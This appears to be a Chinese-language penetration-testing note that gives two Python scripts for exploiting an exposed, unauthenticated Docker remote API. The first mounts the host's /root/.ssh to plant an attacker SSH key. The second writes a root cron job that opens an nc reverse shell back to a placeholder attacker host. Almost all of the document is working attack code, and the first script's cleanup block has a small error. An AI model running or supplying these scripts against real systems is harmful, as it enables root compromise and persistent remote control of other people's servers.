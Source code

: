 ### 利用方法二 Docker python api
写入ssh密钥
```
# coding:utf-8
import docker
import socks
import socket
import sys
import re

#开启代理
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 1081)
#socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 1081)
socket.socket = socks.socksocket

ip = '172.16.145.165'
cli = docker.DockerClient(base_url='tcp://'+ip+':2375', version='auto') 
#端口不一定为2375，指定version参数是因为本机和远程主机的API版本可能不同，指定为auto可以自己判断版本
image = cli.images.list()[0]

#读取生成的公钥
f = open('id_rsa_2048.pub', 'r')
sshKey = f.read()
f.close()

try:
    cli.containers.run(
        image=image.tags[0], 
        command='sh -c "echo '+sshKey+' >> /usr/games/authorized_keys"', #这里卡了很久，这是正确有效的写法，在有重定向时直接写命令是无法正确执行的，记得加上sh -c
        volumes={'/root/.ssh':{'bind': '/usr/games', 'mode': 'rw'}}, #找一个基本所有环境都有的目录
        name='test' #给容器命名，便于后面删除
    )
except docker.errors.ContainerError as e:
    print(e)

#删除容器
try:
    container = cli.containers.get('test')
    container.remove()
except Expection as e:
    continue
```
计划任务(by P牛)
```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```
